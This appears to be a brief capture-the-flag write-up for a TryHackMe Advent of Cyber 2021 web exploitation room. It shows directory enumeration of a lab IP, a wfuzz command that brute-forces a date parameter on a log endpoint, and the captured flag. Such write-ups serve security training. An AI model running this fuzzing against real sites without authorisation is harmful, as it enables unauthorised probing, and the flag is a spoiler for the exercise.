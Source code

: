 # Advent of cyber 2021

# [Day 4] Web Exploitation Santa's watching

# Target IP : 10.10.108.179

# port 80 web server

/api (Status: 301) [Size: 312] [--> http://10.10.108.179/api/]

http://10.10.108.179/api/site-log.php

```bash

wfuzz -c -z file,wordlist http://10.10.108.179/api/site-log.php?date=FUZZ
```
000000026:   200        0 L      1 W        13 Ch       "20201125"

flag : THM{D4t3_AP1}  
